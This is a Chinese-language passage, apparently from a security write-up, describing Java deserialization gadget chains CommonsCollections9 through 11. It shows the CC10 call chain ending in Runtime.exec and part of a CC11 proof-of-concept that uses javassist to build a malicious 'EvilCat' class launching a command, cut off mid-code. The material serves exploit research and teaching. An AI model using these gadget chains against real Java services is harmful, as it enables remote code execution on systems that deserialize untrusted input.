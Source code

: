 **9.commons-collections9**
--------------------------

梅子酒师傅提交的CommonsCollections9，主要利用的是CommonsCollections:3.2版本新增的DefaultedMap来代替LazyMap，因为这两个Map有同样的get函数可以被利用

10.commons-collections10
------------------------

后半部分与CC6类似，利用链如下

```php

Hashtable.readO bject()
    -> Hashtable.reconstitutionPut
    -> key.hashCode() => TiedMapEntry.hashCode()
    -> TiedMapEntry.getValue
    -> TiedMapEntry.map.get() => LazyMap.get()
    -> factory.transform() => ChainedTransformer.transform()
    -> 前文构造的Runtime.getRuntime().exec()

```

**11.commons-collections11**
----------------------------

前半段CC2 后半段CC6

![图片](https://shs3.b.qianxin.com/butian_public/fef6c8647b450357ea4c552c53a9aeba6.jpg)

谢谢@天下大木头的代码，之前cc11没存

```php
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.O bjectInputStream;
import java.io.O bjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;

@SuppressWarnings("all")
public class cc11 {
    public static void main(String[] args) throws Exception {

        // 利用javasist动态创建恶意字节码
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open  /System/Applications/Calculator.app\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName())); //设置父类为AbstractTranslet，避免报错

        // 写入.class 文件
```